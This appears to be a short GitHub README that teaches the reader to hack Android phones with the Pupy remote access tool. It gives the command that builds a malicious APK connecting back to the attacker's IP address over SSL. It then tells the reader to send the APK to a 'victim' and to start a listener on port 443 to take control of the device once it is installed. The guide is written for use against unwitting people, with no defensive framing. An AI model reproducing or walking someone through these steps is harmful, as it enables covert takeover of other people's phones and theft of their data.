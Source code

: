 # HACK ANDROID BY RAT PUPY
HACK ANDROID BY NEW RAT (PUPY SHELL)

First step you need installed pupy shell in this link:
```
https://github.com/Faral-Ghaemi/pupy
```

For hack by pupy you must find your wan ip address. for do this go to google and search "my ip".

you need a open port & you can see this tutorial https://github.com/Faral-Ghaemi/Hack-without-port-forwarding for do that.

so open the terminal in the pupy/pupy and type this command:
```
./pupygen -f apk -o test.apk connect --host 192.2.2.2 --transport ssl
note : 192.2.2.2 is my wan ip 
```
and now you can see test.apk in pupy/pupy 

now send rat(test.apk) to victim and wait for him.

so now we created rat and we have to listening this port:
open terminal in pupy/pupy and type: 
```
./pupysh.py -p 443
```
if your victim install the RAT open the session.

## GOOD LUCK (Mohammad Amin Ghaemi)
